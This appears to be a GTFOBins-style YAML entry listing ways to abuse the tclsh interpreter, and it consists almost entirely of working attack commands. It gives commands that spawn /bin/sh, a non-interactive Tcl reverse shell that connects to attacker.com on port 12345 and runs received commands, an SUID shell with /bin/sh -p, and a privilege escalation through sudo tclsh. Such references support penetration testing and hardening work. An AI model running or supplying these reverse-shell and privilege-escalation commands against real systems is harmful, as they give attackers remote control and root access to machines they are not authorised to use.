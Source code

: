 functions:
  shell:
    - code: |
        tclsh
        exec /bin/sh <@stdin >@stdout 2>@stderr
  non-interactive-reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        echo 'set s [socket $::env(RHOST) $::env(RPORT)];while 1 { puts -nonewline $s "> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh
  suid:
    - code: |
        ./tclsh
        exec /bin/sh -p <@stdin >@stdout 2>@stderr
  sudo:
    - code: |
        sudo tclsh
        exec /bin/sh <@stdin >@stdout 2>@stderr
---
